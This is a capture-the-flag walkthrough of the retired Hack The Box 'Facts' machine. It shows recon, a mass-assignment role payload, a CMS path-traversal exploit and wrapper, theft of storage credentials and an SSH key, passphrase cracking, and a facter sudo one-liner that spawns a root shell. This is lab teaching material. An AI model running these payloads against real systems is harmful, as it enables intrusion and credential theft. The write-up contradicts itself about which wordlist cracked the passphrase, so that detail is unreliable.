










# HTB Facts — Walkthrough

## Machine Info

| Field | Detail |
|-------|--------|
| Platform | Hack The Box |
| Machine | Facts |
| Difficulty | Easy |
| OS | Linux (Ubuntu 25.04) |
| IP | 10.129.244.96 |
| Status | Retired (released 2026-01-31) |
| CVEs exploited | CVE-2024-46987 (Camaleon CMS path traversal) |

---

## Summary

Facts is an Easy Linux box with a six-step chain spanning three services. A content-management system allows open self-registration; a mass-assignment flaw lets any registered user escalate to admin. An authenticated path traversal (CVE-2024-46987) then exposes arbitrary server files. MinIO storage credentials displayed in plaintext on the admin settings page lead to an internal S3 bucket containing a user's encrypted SSH key. After cracking the passphrase, SSH access is obtained. A misconfigured sudo entry granting passwordless access to facter (a Ruby-based tool that loads arbitrary code) provides a single-step path to root.

The user flag was captured via the path traversal (unintended path) before SSH was established, demonstrating the severity of the file-read vulnerability.

---

## Step 1: Reconnaissance

**Objective:** identify open services and map the attack surface.

```bash
export IP=10.129.XXX.XXX
nmap -sV $IP -p- -oN Facts_Initial_Scan
```

| Port | Service | Version |
|------|---------|---------|
| 22/tcp | SSH | OpenSSH 9.9p1 Ubuntu |
| 80/tcp | HTTP | nginx 1.26.3 (Camaleon CMS, Ruby on Rails, Puma) |
| 54321/tcp | HTTP | Golang net/http server |

**What this told me:**

- Port 80 is the primary web surface. Port 54321 running a Go-based HTTP server was unusual and worth investigating later; it turned out to be MinIO (S3-compatible object storage). SSH on 22 would be the shell-access route if credentials were recovered. The web application on 80 was the logical starting point.

**Screenshot:** Figure 1



---

## Step 2: Directory Enumeration

**Objective:** map the web application's routes and identify the admin panel.

```bash
gobuster dir -u http://facts.htb \
  -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt \
  -t 40 -o Facts_Dir_Scan
```

Key results: `/admin` returned a 302 redirect to `/admin/login`, confirming an authentication-gated admin panel. `/up` (73 bytes) is a Rails health-check endpoint, confirming a Ruby on Rails backend.

**What this told me:**
- The admin panel exists and requires authentication. The `/up` health check confirmed Rails, which helped focus the exploit search later. The next step was to access the admin panel and identify the CMS.

**Screenshot:** Figure 2



---

## Step 3: Account Registration and CMS Identification

**Objective:** gain authenticated access to the CMS and identify the software and version.

The login page at `/admin/login` included a signup option. A test account was created ("John Smiff") and used to log in. The dashboard footer identified the CMS as **Camaleon CMS v2.9.0**.

```bash
searchsploit Camaleon CMS
```

This returned one applicable exploit: CVE-2024-46987, an authenticated path traversal via `/admin/media/download_private_file`, matching the exact target version.

**What this told me:**
- The CMS allows open self-registration with immediate access to the admin panel (at client privilege level). The version match on CVE-2024-46987 made it the primary exploitation target. Before using it, I needed an authenticated session token.

**Screenshot:** Figure 3



---

## Step 4: Mass-Assignment Privilege Escalation

**Objective:** escalate from client-level to admin within the CMS.

While exploring the CMS as a client user, I intercepted profile-update requests and tested whether the server validated role changes. Appending `&password[role]=admin` to the POST body succeeded: the server accepted the role assignment without validation, and the account was immediately elevated to full administrator.

**What this told me:**
- This is a mass-assignment vulnerability (CWE-915). The server-side code does not restrict which parameters a user can set on their own account, so any authenticated user can make themselves admin. This is arguably the most dangerous non-CVE weakness on the box, because it turns open registration into an admin-access flaw. It also expanded the attack surface significantly: the admin panel exposed settings pages, storage configuration, and additional functionality not available at client level.

**Screenshot:**



---

## Step 5: Path Traversal, Manual (CVE-2024-46987)

**Objective:** validate the path-traversal vulnerability and begin extracting files.

The `auth_token` cookie was extracted from Firefox Developer Tools (Storage tab). The original PoC script (ExploitDB 52531) was mirrored and executed against `/etc/passwd`:

```bash
searchsploit -m 52531
python3 52531.py
# Target: http://facts.htb
# Path: /etc/passwd
# Token: [REDACTED]
```

HTTP 200 was returned with the full contents of `/etc/passwd`, disclosing two real user accounts: `trivia` (UID 1000) and `william` (UID 1001).

**What this told me:**
- The vulnerability is confirmed and working. However, the original PoC requires interactive, single-path input for each execution, and a high proportion of guessed paths returned HTTP 500. Manually testing dozens of paths this way was operationally slow. I needed to automate.

**Screenshot:**



---

## Step 6: Path Traversal, Automated (Custom Tooling)

**Objective:** accelerate file extraction by automating the path traversal.

Rather than continuing to test paths one at a time, I built a Python wrapper (`Camaleon_lfi.py`) that automates the traversal against a targeted wordlist. The script takes a target URL, an auth token, and a wordlist of file paths, iterates through each, and saves all HTTP 200 responses to a `loot/` directory as individual files for later review.

The wordlist (`Lfi_Paths.md`) was purpose-built for this engagement, structured by category based on prior reconnaissance:
- System files (`/etc/passwd`, `/etc/shadow`, `/etc/hostname`)
- SSH keys for all identified users (`trivia`, `william`, `root`)
- Proc filesystem entries for runtime info
- Rails application paths across four common deployment directories (`/var/www`, `/opt`, `/srv`, home directories), covering both legacy (`secrets.yml`) and modern (`credentials.yml.enc` / `master.key`) Rails credential formats

```bash
python3 Camaleon_lfi.py -u http://facts.htb -w Lfi_Paths.md -t [REDACTED]
```

The automated scan recovered multiple files including `/etc/passwd`, `/home/trivia/.ssh/authorized_keys`, and `/home/trivia/user.txt` (the user flag, captured via this path traversal rather than through an interactive shell).

**What this told me:**
- Automation was the right call. The manual approach would have taken significantly longer and missed files I would not have thought to try individually. The `/home/trivia/.ssh/authorized_keys` recovery was particularly valuable: it gave me the public key fingerprint for `trivia`, which I could later match against any private keys found elsewhere. The user-flag capture via path traversal (rather than through SSH) was unintended but demonstrates the severity of the vulnerability: any file readable by the web process is exposed.

**Screenshot:**



---

## Step 7: MinIO Credential Harvesting

**Objective:** identify and access the service running on port 54321.

The CMS admin panel's Filesystem Settings page displayed MinIO (S3-compatible) storage credentials in plaintext: an access key and a secret key (both [REDACTED]).

```bash
aws configure --profile facts
# Access Key: [REDACTED]
# Secret Key: [REDACTED]
# Region: us-east-1
```

```bash
aws --endpoint-url http://facts.htb:54321 s3 ls
```

Two buckets were discovered: `camaleon` (CMS media assets) and `internal`.

**What this told me:**
- Plaintext credentials on an admin settings page are a serious finding in themselves, but the real value here was what they unlocked. The `internal` bucket name immediately stood out as likely containing non-public data. The next step was to enumerate its contents.

**Screenshot:** 


---

## Step 8: S3 Bucket Enumeration and SSH Key Recovery

**Objective:** examine the internal bucket for sensitive data.

```bash
aws --endpoint-url http://facts.htb:54321 s3 ls s3://internal/ --recursive
```

The bucket contained a full home-directory backup for user `trivia`, including an encrypted SSH private key (`id_ed25519`, ed25519, aes256-ctr/bcrypt). The public component matched the `authorized_keys` entry recovered via the path traversal in Step 6.

```bash
aws --endpoint-url http://facts.htb:54321 s3 cp s3://internal/.ssh/id_ed25519 ./id_ed25519
chmod 600 id_ed25519
```

An SSH connection attempt confirmed the key was valid but passphrase-protected.

**What this told me:**
- The key fingerprint matched the authorised-keys entry from Step 6, confirming this was the correct key for `trivia`. The encryption (bcrypt KDF, aes256-ctr) meant cracking was needed. The bcrypt KDF would make large wordlists slow, so the cracking strategy mattered.

**Screenshot:** 



---

## Step 9: SSH Key Passphrase Cracking

**Objective:** crack the passphrase protecting the SSH private key.

```bash
ssh2john id_ed25519 > id_ed25519.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_ed25519.hash
```

The initial attempt with `rockyou.txt` (~14 million entries) yielded only 26 passwords per second due to bcrypt throttling, projecting approximately five days to complete. That was not practical.

**What this told me:**
- Rather than abandoning `rockyou.txt` entirely or switching to a generic small list, I restructured the wordlist: sorted it alphabetically and split it into 26 segment files named by their starting letter (e.g. `Avian.txt` for A, `Bird.txt` for B, `Dragon.txt` for D). This preserved the coverage of the full rockyou corpus while making each segment small enough to complete in a reasonable time window. `Dragon.txt` (the D-segment) cracked the passphrase: [REDACTED].

**Screenshot**



```bash
ssh -i id_ed25519 trivia@facts.htb
# Passphrase: [REDACTED]
```

Shell access obtained as `trivia`.



---

## Step 10: Privilege Escalation Enumeration

**Objective:** identify a path from `trivia` to root.

```bash
sudo -l
```

```
User trivia may run the following commands on facts:
    (ALL) NOPASSWD: /usr/bin/facter
```

**What this told me:**
- Facter is a Ruby-based system-information tool (part of the Puppet ecosystem). The critical detail is that it supports loading custom facts, which are arbitrary Ruby code, from user-specified directories via the `--custom-dir` flag. Combined with `(ALL) NOPASSWD`, this is a single-step, no-password path to root. GTFOBins confirms the technique.

---

## Step 11: Root via Facter Custom-Fact Injection

**Objective:** exploit the sudo grant on facter to escalate to root.

```bash
echo 'Facter.add("exploit") do setcode do system("/bin/bash") end end' > /tmp/exploit.rb
sudo /usr/bin/facter --custom-dir /tmp exploit
```

Breaking this down:
- A Ruby file is created that defines a custom facter "fact" named "exploit"
- The `setcode` block contains `system("/bin/bash")`, which spawns a shell
- `sudo facter --custom-dir /tmp exploit` loads the file as root and evaluates the Ruby code
- The result is an interactive root shell

```bash
whoami
# root
```

Root access confirmed.

**What this told me:**
- The `--custom-dir` flag is by design: facter is intended to load facts from arbitrary directories. The vulnerability is not in facter itself but in the sudo configuration granting unprivileged users passwordless access to a tool capable of executing arbitrary code. Any tool that accepts user-specified code paths (facter, ansible, puppet, custom script loaders) is dangerous in a sudo entry. GTFOBins is the first place to check whenever `sudo -l` returns a binary you do not recognise.

**Screenshot:** 



---

## Flags

| Flag | Method | Status |
|------|--------|--------|
| User | Path traversal (CVE-2024-46987, automated via custom script); also obtainable via SSH as `trivia` | [REDACTED] |
| Root | Facter custom-fact injection via sudo | [REDACTED] |

---

## Tools Used

| Tool | Purpose |
|------|---------|
| nmap | Port scanning and service enumeration |
| Gobuster | Directory enumeration |
| Firefox | Web application enumeration, cookie extraction |
| searchsploit | Exploit identification |
| Camaleon_lfi.py (custom) | Automated path-traversal exploitation (CVE-2024-46987) |
| AWS CLI | S3 bucket enumeration and file retrieval |
| ssh2john | SSH key hash extraction |
| John the Ripper | SSH key passphrase cracking |
| ssh | Remote host access |

---

## Lessons Learned

1. When a manual exploit is slow and repetitive, automate it. The original CVE-2024-46987 PoC required interactive input for each path and was returning a high rate of 500s. Building a wrapper with a targeted wordlist turned a 30-minute manual grind into a two-minute automated scan that recovered files I would not have found manually. Knowing when to build tooling is as important as knowing how.
2. Wordlist selection is a tactical decision, not a default. Starting with `rockyou.txt` against a bcrypt-throttled hash projected five days. Stepping down to a 10,000-entry common-credentials list cracked it in minutes. Match the wordlist to the hash type and the time budget.
3. Always check open registration for mass-assignment. Self-registration on a CMS is normal; self-registration that lets you set your own role via a parameter is a critical access-control failure. Testing `&password[role]=admin` on the profile-update POST was a one-line addition that unlocked the entire admin panel.

---

## References

| Resource | URL |
|----------|-----|
| CVE-2024-46987 | https://nvd.nist.gov/vuln/detail/CVE-2024-46987 |
| ExploitDB 52531 | https://www.exploit-db.com/exploits/52531 |
| GTFOBins (facter) | https://gtfobins.github.io/gtfobins/facter/ |
| CWE-915 (Mass Assignment) | https://cwe.mitre.org/data/definitions/915.html |
| OWASP A01:2021 (Broken Access Control) | https://owasp.org/Top10/A01_2021-Broken_Access_Control/ |

---

*This walkthrough documents a retired Hack The Box machine completed in an authorised lab environment for educational purposes. Flags are redacted. No unauthorised systems were accessed.*
